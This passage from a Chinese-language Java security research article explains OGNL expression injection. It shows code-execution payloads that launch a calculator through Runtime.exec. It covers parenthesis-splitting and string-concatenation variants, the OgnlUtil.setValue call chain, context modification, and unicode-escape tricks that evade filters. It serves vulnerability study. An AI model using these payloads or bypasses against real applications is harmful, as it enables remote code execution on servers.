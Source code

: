所以，比如使用 Runtime 弹计算器，原本的表达式可以这样写：
```
@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')
```
但是使用 `(one)(two)` 可以改成这样：
```
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('aaa')
('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')
```
将 one 用字符串括起来，甚至是进行拼接，后面再跟一个括号，这样程序就会对 one 进行二次解析，第一次解析成为字符串，第二次解析成为对应的 AST 并执行，也可以将其中的部分变量拆分到 two 中，因为 two 会作为 one 的 root 解析执行，可以拿到其中的值。

又由于表达式的执行是由右向左执行的，因此向右面写入更多个括号，都会依次拆分，最后执行到 one 表达式中：

```
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('su18')('su19')('su20')('su21')('su22')('su23')('su24')('su25')('su26')('su27')('su28')('su29')
```
或者向左叠入更多层级的括号：

```
('su23')(('su22')(('su21')(('su20')(('su19')(('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('su18'))))))
```
这些写法都不影响最终 one 表达式的执行，如下图均可以成功弹出计算器：

<img src="https://oss.javasec.org/images/1625284296375.png" style="zoom:50%;" />

以上是使用`Ognl.parseExpression()`  加 `Ognl.getValue()` 来执行的，与 `OgnlUtil.getValue()` 一致。

那使用 `OgnlUtil.setValue()`，调用会一致吗？答案是否定的。

<img src="https://oss.javasec.org/images/1625284296377.png" style="zoom:50%;" />

如上图，我们的 payload 报错了，为什么呢？`OgnlUtil.setValue()` 的调用链为：`OgnlUtil.setValue()`-> `OgnlUtils.compile()` ->`Ognl.setValue()` -> `Node.setValue()` -> `SimpleNode.evaluateSetValueBody()` ->`ASTEval.setValueBody()`。

在 `ASTEval.setValueBody()` 中，分别取了 `children[0]` 的 `children[1]` Node 并调用其 `getValue()` 方法。这个方法的调用链为：`SimpleNode.getValue()` 、`SimpleNode.evaluateGetValueBody()`、 `ASTEval.getValueBody()`，到这步进入了 `OgnlUtil.getValue()` 的漏洞触发链。

也就是说，在使用 `OgnlUtil.setValue()` 执行恶意表达式时，要比 `OgnlUtil.getValue()` 多出一步取节点并执行的步骤，如下图两种方法都可以弹出计算器：

<img src="https://oss.javasec.org/images/1625284296383.png" style="zoom:50%;" />

上面讨论了调用静态方法的表达式，那如果想要修改 context 里的值呢？根据官方文档的描述和测试的结果，以下的方式都可以：

```
('#context[\'key\']=aaaa')('su18')
('#context[\'key\']')('su18')=aaa
('#context[\'key\']=#a')(#a='aaa')
```

还有关键的一点是：在对表达式进行解析时，由于在 `OgnlParserTokenManager` 方法中使用了 `ognl.JavaCharStream#readChar()` 方法，在读到 `\\u` 的情况下，会继续读入 4 个字符，并将它们转换为 char，因此 OGNL 表达式实际上支持了 unicode 编码，这就绕过了之前正则或者字符串判断的限制。

<img src="https://oss.javasec.org/images/1625284296384.png" style="zoom:50%;" />
